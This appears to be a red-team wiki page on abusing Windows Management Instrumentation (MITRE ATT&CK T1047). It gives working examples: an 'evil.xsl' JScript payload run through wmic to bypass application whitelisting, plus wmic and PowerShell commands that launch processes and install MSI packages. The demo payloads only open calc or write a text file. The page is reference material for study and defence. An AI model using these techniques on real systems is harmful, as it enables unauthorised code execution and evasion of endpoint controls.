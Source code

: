 ```yaml
---
description: MITRE ATT&CK™  Windows Management Instrumentation - Technique T1047
---
```


# WMI

## Theory

Windows Management Instrumentation (WMI) provides a standardized way for querying and managing various elements of a Windows operating system. It allow administrators to perform standard management tasks that attackers can abuse to perform code execution.

We can use WMI to execute binary, commands, msi, services, scheduled tasks or XSL file that contain javascript payload with WMIC.

## Practice

{% tabs %}
{% tab title="XSL" %}
Another application whitelist bypassing technique discovered by Casey @subTee, similar to squiblydoo

Define the XSL file containing the jscript payload:

```bash
#evil.xsl
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc");
	]]> </ms:script>
</stylesheet>
```

Invoke wmic command and specify /format pointing to the evil.xsl:

```bash
wmic os get /FORMAT:"evil.xsl"
```
{% endtab %}

{% tab title="Commands" %}
Execute a local binary or a command using wmic.exe

```bash
wmic.exe process call create "C:\Windows\Temp\evil.exe"
wmic.exe process call create "cmd.exe /c calc.exe"
```

Or we may use powershell&#x20;

```powershell
#Execute a command remotely 
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

#Powershell v1+
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList $Command

#Powershell v3+
Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{ CommandLine = $Command }
```
{% endtab %}

{% tab title="MSI" %}
Install a msi package using wmic.exe

```bash
wmic product call install PackageLocation=c:\Windows\myinstaller.msi
```

Or we may use powershell

```powershell
#Powershell v1+
Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","C:\Windows\myinstaller.msi")

#Powershell v3+
Invoke-CimMethod -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```
{% endtab %}
{% endtabs %}

You may want to check this page for remote WMI execution :&#x20;

{% content-ref url="../../pivoting/remote-wmi.md" %}
[remote-wmi.md](../../pivoting/remote-wmi.md)
{% endcontent-ref %}

## Resources

{% embed url="https://tryhackme.com/room/livingofftheland" %}

{% embed url="https://www.ired.team/offensive-security/code-execution/application-whitelisting-bypass-with-wmic-and-xsl" %}
